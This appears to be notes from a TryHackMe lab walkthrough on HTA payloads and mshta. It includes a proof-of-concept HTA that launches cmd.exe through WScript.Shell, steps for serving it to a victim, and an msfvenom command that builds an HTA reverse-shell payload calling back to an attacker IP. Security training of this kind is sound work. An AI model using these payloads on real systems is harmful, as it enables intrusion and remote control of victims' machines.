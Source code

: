 HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer. 

In the following example, we will use an ActiveXObject in our payload as proof of concept to execute cmd.exe. Consider the following HTML code.

```
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

Then serve the payload.hta from a web server, this could be done from the attacking machine as follows,

```
Terminal

           
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)


```

![[Pasted image 20220909230849.png]]

On the victim machine, visit the malicious link using Microsoft Edge, http://10.8.232.37:8090/payload.hta. Note that the 10.8.232.37 is the AttackBox's IP address.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/f3a719e8137e6fdca683eefbf373ea4f.png)

Once we press Run, the payload.hta gets executed, and then it will invoke the cmd.exe. The following figure shows that we have successfully executed the cmd.exe.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/07c5180cd36650478806a1bf3d4595f2.png)

HTA Reverse Connection

We can create a reverse shell payload as follows,

```
Terminal

           
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta


```
